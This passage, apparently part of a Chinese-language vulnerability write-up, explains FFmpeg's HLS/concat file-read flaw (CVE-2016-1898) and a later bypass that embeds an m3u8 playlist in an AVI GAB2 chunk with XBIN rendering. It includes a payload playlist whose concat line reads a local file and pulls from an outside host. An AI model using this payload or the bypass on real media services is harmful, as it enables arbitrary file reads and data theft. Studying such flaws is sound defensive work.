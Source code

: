 **CVE-2016-1898**

因为FFmpeg扩展性极强，其中支持一个 Physical concatenation protocol concat: 可以把多个 url 流合并访问资源：

```shell
concat:URL1|URL2|…|URLN
```

结合 SSRF ，我们可以把 file:// 读到的内容发送出来。

```shell
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://rr.sb/poc/header.m3u8|file:///tmp/vuln  
#EXT-X-ENDLIST
```

![ffmpeg](imgs/4.png)

之后官方在2.8.5版本修复了该漏洞。

而这个漏洞则是绕过了这次修复，继续利用这两个漏洞达到任意文件读取。

在上个月的 phdays conference 里，通过视频格式的一个 trick bypass 了厂商对 SSRF 的封堵。

奇怪的视频格式标准

在 AVI 视频中，有一个数据块可以定义字幕，叫做 GAB2 ，位置于 AVI header 中，有趣的是 m3u8 可以插入到 avi 文件中，且 FFmpeg 依旧会对有文件头 `#EXTM3U` 的 AVi 视频做 HLS 处理。

利用思路如下： 将 m3u8 嵌入到带有 GAB2 的AVI视频中，对文件格式检查进行 bypass 。 因为之前说过，m3u8 并不是真正的视频资源，所以如果要播放，必须还要在 m3u8 中嵌入一个可播放的视频资源，其中有一个古老的媒体格式 XBin，这个媒体格式具备基本显示图片，文本的功能，体积非常小，最重要的是，这个媒体格式可编程，如果嵌入到 m3u8 中，将目标文件作为对象，用 xbin 绘制成为字符，就可以作为合法可播放的视频文件观看了，所以依次嵌套后，文件内容大致为：

```shell
[AVI header]  
[GAB2 header]  
[m3u8 header]  
[XBIN header]  
目标文件  
[XBIN footer]  
[m3u8 footer]  
[AVI footer]  
```
